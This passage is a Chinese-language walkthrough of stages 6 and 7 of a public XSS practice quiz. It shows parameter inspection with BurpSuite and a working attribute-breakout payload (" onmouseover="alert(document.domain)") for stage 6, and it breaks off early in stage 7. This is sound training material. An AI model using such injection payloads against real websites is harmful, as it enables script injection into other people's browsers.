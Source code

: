 ### 1.2.2 Stage #6 限制输入<>的 XSS 注入

> https://xss-quiz.int21h.jp/stage-no6.php

**分析页面与用户交互的可控参数**

提交 hello

查看源码

```
<input type="text" name="p1" size="50" value="hello">
```

> 参数在 input

开启 BurpSuite 拦截，提交 hello

```
p1=hello
```

> 只有 p1 是可控参数

**查找页面的回显**

页面无回显

**判断能否执行 javascript 代码**

关闭拦截，提交代码	`">`

```
"><script>alert(document.domain);<script>
```

查看源码

```
<input type="text" name="p1" size="50" value="" &gt;&lt;script&gt;alert(document.domain);&lt;script&gt;"="">
```

> 发现 `>` 被转义，`"` 未被转义

关闭拦截，提交代码 `"` 和事件

```
" onmouseover="alert(document.domain)"
```

> 移动鼠标至交互栏，成功触发

### 1.2.3 Stage #7 限制输入引号的 XSS 注入

> https://xss-quiz.int21h.jp/stage07.php

**分析页面与用户交互的可控参数**

只有一个交互栏

查看源码
